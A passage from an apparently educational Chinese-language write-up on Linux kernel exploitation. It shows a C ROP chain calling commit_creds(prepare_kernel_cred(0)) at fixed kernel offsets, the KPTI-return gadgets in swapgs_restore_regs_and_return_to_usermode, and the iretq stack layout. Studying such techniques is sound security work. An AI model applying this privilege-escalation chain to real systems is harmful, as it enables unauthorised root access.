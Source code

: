 ##### 提权

之后，再继续构造ROP，执行`commit_creds(prepare_kernel_cred(0))`。

```c
		// commit_creds
		*rop++ = kernel_addr + (0xb689d);	// pop rdi; ret
		*rop++ = 0;
		*rop++ = kernel_addr + 0x53680; 		// prepare_kernel_cred
		*rop++ = kernel_addr + (0xffa5a);	// mov rdi, rax; call 0x2d1350; mov rax, -0x16; pop rbp; ret;
		*rop++ = 0;
		*rop++ = kernel_addr + (0x537d0);		// commit_creds
```

之后需要借助`swapgs_restore_regs_and_return_to_usermode `里的gadgets返回UserSpace

```assembly
0xffffffffac800cb0:	pop    r15
   0xffffffffac800cb2:	pop    r14
   0xffffffffac800cb4:	pop    r13
   0xffffffffac800cb6:	pop    r12

	.....
   
   0xffffffffac800ce5:	mov    rdi,cr3			[1]
   0xffffffffac800ce8:	jmp    0xffffffffac800d1c
   .....
   
   0xffffffffac800d1c:	or     rdi,0x1000		[2]
   0xffffffffac800d23:	mov    cr3,rdi
   0xffffffffac800d26:	pop    rax
   0xffffffffac800d27:	pop    rdi
   0xffffffffac800d28:	swapgs 
   0xffffffffac800d2b:	jmp    0xffffffffac800d50
   
   .....
   0xffffffffac800d50:	iretq  				[3]
```

`[1]->[2]->[3]`组成的gadgets设置CR3寄存器将page table转到Userspace，`swapgs`切换GS，`iretq`返回到用户空间。其需要栈上的参数

```
		    +-------------------+
            |        RIP        |
            +-------------------+
            |        CS         |
            +-------------------+
            |       RFLAGS      |           
            +-------------------+
            |        RSP        |
            +-------------------+
            |        SS         |
            +-------------------+
```
